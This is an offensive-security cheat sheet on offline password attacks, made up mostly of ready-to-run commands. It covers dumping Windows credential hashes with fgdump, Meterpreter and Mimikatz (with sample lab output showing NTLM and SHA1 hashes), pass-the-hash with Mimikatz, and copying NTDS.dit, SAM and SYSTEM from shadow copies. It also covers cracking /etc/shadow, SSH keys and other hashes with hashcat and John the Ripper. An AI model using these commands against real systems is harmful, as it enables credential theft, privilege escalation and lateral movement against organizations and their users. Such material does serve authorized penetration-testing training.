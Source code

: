 # Offline Attack

## Extracting Password Hashes from Windows

### fgdump

Run fgdump to dump local hash

 ```
 fgdump.exe
 ```

### Meterpreter's Hashdump

```
meterpreter > hashdump
```

### Mimikatz

```
PS C:\temp\mimikatz> .\mimikatz
```

* get debug rights \(this or Local System rights is required for many Mimikatz commands\).
* by default, the Administrators group has Debug rights. Debug still has to be “activated” by running “privilege::debug”.

```
mimikatz # privilege::debug
```

* lists all available provider credentials. This usually shows recently logged on user and computer credentials.
* Services running with account credentials are also dumped using this command.
* Note that only services that are running \(credentials in memory\) can be dumped in this manner.

```
mimikatz # sekurlsa::logonpasswords
```

```
Authentication Id : 0 ; 646260 (00000000:0009dc74)
 Session           : RemoteInteractive from 2
 User Name         : adsadministrator
 Domain            : ADSECLAB
 Logon Server      : ADSDC03
 Logon Time        : 11/27/2015 11:41:27 AM
 SID               : S-1-5-21-1581655573-3923512380-696647894-500
 msv :
 [00000003] Primary
 * Username : ADSAdministrator
 * Domain   : ADSECLAB
 * NTLM     : 5164b7a0fda365d56739954bbbc23835
 * SHA1     : f8db297cb2ae403f8915675cebe79643d0d3b09f
 [00010000] CredentialKeys
 * NTLM     : 5164b7a0fda365d56739954bbbc23835
 * SHA1     : f8db297cb2ae403f8915675cebe79643d0d3b09f
 tspkg :
 wdigest :
 * Username : ADSAdministrator
 * Domain   : ADSECLAB
 * Password : (null)
 kerberos :
 * Username : adsadministrator
 * Domain   : LAB.ADSECURITY.ORG
 * Password : (null)
 ssp :   KO
 credman :
```

#### Pass the Hash with Mimikatz

If you can’t crack the hash of a local administrator account you can instead just inject the hash into memory to gain the privileges:

```
sekurlsa::pth /user:Administrator /domain:{domain name} /ntlm:{ntlm hash here} /run:cmd
```

### Volume Shadow Copy Services to copy ntds.dit

```text
cscript vssown.vbs /start
cscript vssown.vbs /create
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\NTDS\NTDS.dit c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SYSTEM c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SAM c:\
```

## Hash identification

There are generally speaking three pieces of data we can use to identify a hash.

* The length of the hash
* The character set
* Any special characters

We can use hash-identifier to identify the hash algorithm from the hashed password.

`hash-identifier`

## Cracking the Password

### Hashcat

Put the hashed password file \(test.hash\) and dictionary \(rockyou.txt\) in the same directory and execute the below command:

> `hashcat -m 100 test.hash rockyou.txt`  
> `-m`  
> `-m 100`

### John the ripper \(\*\)

Use the program "unshadow" which is included in John the Ripper to convert obtained /etc/passwd and /etc/shadow files to a combined file for John \(e.g. crackme.txt below\)

```
unshadow /etc/passwd /etc/shadow >> crackme.txt
```

Cracking the file generated by unshadow \(**crackme.txt**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

```
john crackme.txt --wordlist=rockyou.txt
```

Convert an encrypted SSH key to a format readable by John

```
ssh2john encrypted-key >> crackme-ssh
```

Cracking the file generated by ssh2john \(**crackme-ssh**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

```
john crackme-ssh --wordlist=rockyou.txt
```

Crack MD5 hashes that are in a file called hashes using a dictionary/wordlist brute-force

```
john--format=md5 hashes --wordlist=rockyou.txt
```

John configuration file

* Linux

  ```
  john.conf
  ```

* Windows

  ```
  john.ini
  ```

`john.pot` file is where the cracking results stored.

```
john --show [password_file]
```

john.rec is the recovery file in the event of a crash. To restore cracking

```
john --restore
```

